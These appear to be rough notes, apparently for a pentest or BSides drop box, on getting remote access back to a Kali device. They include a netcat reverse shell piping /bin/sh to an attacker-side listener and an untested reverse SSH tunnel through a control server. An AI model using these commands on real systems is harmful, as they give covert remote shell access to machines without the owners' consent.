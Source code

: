 
##Netcat sucks but would work...

/bin/sh | nc TARGET IP 80 #This is the IP of the Kali device
nc -lvp 80 # Run this listener on Kali

##SSH is better.

Autossh - https://linux.die.net/man/1/autossh
Reverse SSH Tunneling Tutorial - https://www.howtoforge.com/reverse-ssh-tunneling 
SSH Keys instead of passwords - https://www.digitalocean.com/community/tutorials/how-to-configure-ssh-key-based-authentication-on-a-linux-server 

## SSH With Port Forward using certificate based authentication - woot.

#this needs work, I need to think on the logic.
ssh -i "bsides-keypair.pem" root@hostname -R 22:172.16.0.1:22 -v

Attacker > SSH To Control Server - Port 22
Kali > SSH To Control Server - Accepts connections on 22

SSH Control Server forwards requests port 8000 to Kali device.
- How does it know the device for transport?? Experiment.
-- -R 8000:localhost:8000 I think will do it.

Testing required.